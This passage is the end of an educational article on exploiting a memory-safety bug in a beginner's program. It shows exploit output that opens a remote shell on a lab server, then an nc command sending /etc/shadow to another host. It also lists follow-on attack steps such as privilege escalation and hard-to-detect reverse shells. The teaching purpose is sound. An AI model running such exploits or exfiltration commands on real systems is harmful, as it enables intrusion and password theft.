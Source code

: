     log.info( 'Entering shell' )
    proc.interactive()

The result is that we have created access to a shell on the server from where we can continue to do a privilege escalation, launch a reverse shell that is difficult to detect by a blue team, install supplementary programs, scan and attack the network the server is connected to, copy the file that contains the encrypted passwords (see below example), ...

    [+] Opening connection to 192.168.111.30 on port 1111: Done
    [*] Creating payload
    [*] Sending payload
    [*] Entering shell
    [*] Switching to interactive mode
    $ nc -w 3 192.168.111.15 54321 < /etc/shadow

Conclusion

We have shown that even a simple beginners program can contain a large enough application error to permit the first phase of the hack of an entire network to be executed. We have also shown that educating programmers in one programming language or the other is not only a question of showing them the possible statements. Each and every programming course should also invite the students to grow awareness concerning application security because application security has an important impact on a number of other security domains like api security.

In the above article, we have opted to slightly simplify the initial setup in order to reduce complexity. The author is more than willing to give further examples that function in case of an application with position independent code, with dynamic linkage, with stack protection activated, etc.

We hope that the above will inspire teachers to introduce aspects of application security in their programming courses, since the importance of the subject can hardly be underestimated.
